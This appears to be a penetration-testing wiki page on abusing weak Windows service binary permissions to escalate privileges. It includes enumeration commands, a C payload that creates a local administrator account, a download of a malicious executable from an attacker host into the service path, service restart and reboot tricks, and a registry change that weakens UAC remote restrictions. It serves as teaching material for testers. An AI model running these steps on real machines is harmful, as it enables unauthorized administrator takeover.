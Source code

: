 ```yaml
---
authors: Anh4ckin3
---
```


# 🛠️ Weak service permissions

## Theory

File permissions in Windows define who is allowed to access, modify, or execute files on the system. If these permissions are misconfigured, they can enable unauthorized users to alter or replace critical files, potentially leading to security vulnerabilities such as unauthorized access.

Below is a summary of Windows file permissions based on the provided table:

    F (Full access): Grants complete control over the file, including modifying and deleting it.
    M (Modify access): Allows editing and deleting the file, but not changing permissions.
    RX (Read and execute access): Permits viewing the file and executing it if it's an executable.
    R (Read-only access): Only allows viewing the file without making changes.
    W (Write-only access): Permits writing to the file but not reading or executing it.

## Pratice

### Insecure permissions on service executable 

#### Enumerate of vulnerable services
This type of abuse can occur when the binary of a Windows service is misconfigured. If the permissions for this binary allow a local user without special privileges to modify or replace it with a malicious version, the attacker may gain the privileges of the service account, which is often a high-privilege account.

Enumeration can be performed using PowerShell, either by leveraging native PowerShell commands (Living off the Land) or by utilizing additional tools and scripts like [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). The main difference between the two lies in the results: PowerUp can identify whether a service is vulnerable, while PowerShell merely lists the binary services. In this example, the aniService service is misconfigured and vulnerable to this attack.

```powershell
# USING POWERSHELL
> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# USING POWERUP
> Invoke-AllChecks
[*] Checking service executable and argument permissions...


ServiceName    : aniService
Path           : C:\Program Files\AniService\ani.exe
ModifiableFile : C:\Program Files\AniService\ani.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'aniService'
```
Once the vulnerable binary has been identified using a tool like PowerUp or Winpeas, the permissions of the binary can be checked with **icacls.exe**. The most relevant permissions to look for are (F) and (M), particularly when they are associated with a group such as `Everyone`: or a local user, for example.
```powershell
> icacls "C:\Program Files\AniService\ani.exe"
C:\Program Files\AniService\ani.exe
                                    AUTORITE NT\System:(F)
                                    BUILTIN\Administrators:(F)
                                    Everyone:(F)
                                    BUILTIN\Users:(RX)
```

####  Crafting a malicious binary
In the current practical case, the executable permission (F) is set for the "Everyone" group. However, if the permission had been set to (M), abuse would also have been possible. Due to this misconfiguration, the attacker can easily replace the binary with a malicious version. PowerUp can be used to automate this task.

```powershell
> Install-ServiceBinary -ServiceName 'aniService' -User vador -P "D4rkIsD@rk"
```

Once the command is executed, it will only be necessary to restart the service to ensure that the abuse has been successfully carried out.

The second method involves creating a custom malicious binary, which can offer advantages, such as bypassing antivirus detection. Below is a simple C code that will execute a Windows system command (the system command can, of course, be replaced with another).
```C
#include <stdlib.h>
int main ()
{
int i;
    i = system("net user vador D4rkIsD@rk /add && timeout /t 2 && net localgroup Administrators vador /add");
return 0;
}

```

To compile Windows Executable it is possible to use `i686-w64-mingw32-gcc`.
```bash
> i686-w64-mingw32-gcc CODE.C$ -lws2_32 -o FILE.EXE$
```

#### Replacing binaries
Due to the incorrect permissions, the attacker can replace the original executable by renaming it, for example. The attacker can then add the new malicious file with the same name as the original one.
```powershell
> move ani.exe ani.exe.bak

# DOWNLOAD THE MALICIOUS EXECUTABLE
> iwr http://<ATTACKER_IP>/malicious.exe -Outfile "C:\Program Files\AniService\ani.exe"
```

#### Methods for service restart
Once the binary is replaced, the service needs to be restarted. To verify if this is possible, a tool from the Sysinternals suite can be helpful, [accesschk.exe](https://download.sysinternals.com/files/AccessChk.zip) It is a tool that allows system administrators to quickly check the type of access users or specific groups have to resources, including files, directories, registry keys, global objects, and Windows services.
```powershell
> ./accesschk64.exe /accepteula -ucqv <SERVICE_NAME>

Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

aniService
  Medium Mandatory Level (Default) [No-Write-Up]
  R  DESKTOP-5VHCKF3\admin
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
```
The permissions that manage service startup are SERVICE_START and SERVICE_STOP. If these permissions are assigned to your user account or to a group that controls your access, you will be able to restart the service.
```powershell
# STOP SERVICE
> net stop <SERVICE_NAME>

# START SERVICE
> net start <SERVICE_NAME>
```
An alternative exists if the Startup permissions are not present. Using the sc.exe tool, the boot method used by the service can be checked. If it is set to AUTO_START, this means the service starts automatically during Windows boot.
```powershell
> sc.exe qc <SERVICE_NAME>
[SC] QueryServiceConfig réussite(s)

SERVICE_NAME: aniService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\AniService\ani.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Anakin Skywalker Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
There is a Windows privilege called **SeShutdownPrivilege**, which allows for rebooting a Windows system. With this privilege, it is possible to indirectly restart a service, even without having the direct permissions to do so.
```powershell
> shutdown /r /t 0
```
Once the service is rebooted, the payload should execute.

#### Configuring the LocalAccountTokenFilterPolicy

A small nuance when adding a local user: there is a registry key named **LocalAccountTokenFilterPolicy** that, when enabled, prevents users in the local Administrators group (except for those with a RID of 500, such as the built-in Administrator account) from obtaining full administrator rights during remote connections, such as to administrative shares like C$. To disable this restriction, the value of the key must be modified.
```powershell
> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v LocalAccountTokenFilterPolicy /t Reg_DWORD /d 1
```

### Ressources 
[https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy](https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy)

[https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/](https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/)


